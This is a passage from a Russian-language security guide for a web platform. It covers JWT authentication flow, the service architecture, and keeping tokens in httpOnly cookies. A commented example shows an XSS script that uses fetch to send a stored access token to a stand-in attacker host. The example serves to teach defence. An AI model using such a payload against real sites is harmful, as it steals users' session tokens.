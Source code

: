 ## 🏗️ **АРХИТЕКТУРА БЕЗОПАСНОСТИ**

### **Централизованная аутентификация с распределенной авторизацией:**

```mermaid
graph TD
    A[Admin Panel :6002] --> B[API Gateway :6020]
    B --> C[Auth Service :6021]
    C --> D[PostgreSQL beauty_platform_new]
    C --> E[Audit Database beauty_audit]
    
    F[Other Services] --> B
    F --> G[JWT Validation Locally]
    
    H[nginx TLS 1.3] --> A
    H --> B
```

### **Поток аутентификации:**

1. **Логин** → Auth Service проверяет credentials + MFA
2. **JWT Issue** → Auth Service выдает подписанный токен  
3. **Cookie Set** → httpOnly cookie с токеном
4. **Request** → Каждый запрос валидирует JWT локально
5. **Audit** → Все действия логируются в отдельную БД

---

## 🔑 **1. БЕЗОПАСНОЕ ХРАНЕНИЕ ТОКЕНОВ**

### **❌ НЕ ИСПОЛЬЗУЙ localStorage/sessionStorage:**

```typescript
// ❌ УЯЗВИМО К XSS АТАКАМ:
localStorage.setItem('beauty_access_token', token)
sessionStorage.setItem('beauty_refresh_token', refreshToken)

// Любой XSS скрипт может украсть токены:
// <script>fetch('evil.com', {body: localStorage.getItem('beauty_access_token')})</script>
```

### **✅ ИСПОЛЬЗУЙ httpOnly Cookies:**

```typescript
// ✅ БЕЗОПАСНО - защищено от XSS:
// В Auth Service (6021):
app.post('/auth/login', async (req, res) => {
  // ... проверка credentials + MFA ...
  
  const accessToken = jwt.sign(payload, JWT_SECRET, { expiresIn: '15m' })
  const refreshToken = jwt.sign(refreshPayload, JWT_SECRET, { expiresIn: '7d' })
  
  // Устанавливаем безопасные cookies
  res.cookie('beauty_access_token', accessToken, {
    httpOnly: true,        // JavaScript не может получить доступ
    secure: true,          // Только через HTTPS
    sameSite: 'strict',    // Защита от CSRF
    maxAge: 15 * 60 * 1000 // 15 минут
  })
  
  res.cookie('beauty_refresh_token', refreshToken, {
    httpOnly: true,
    secure: true,
```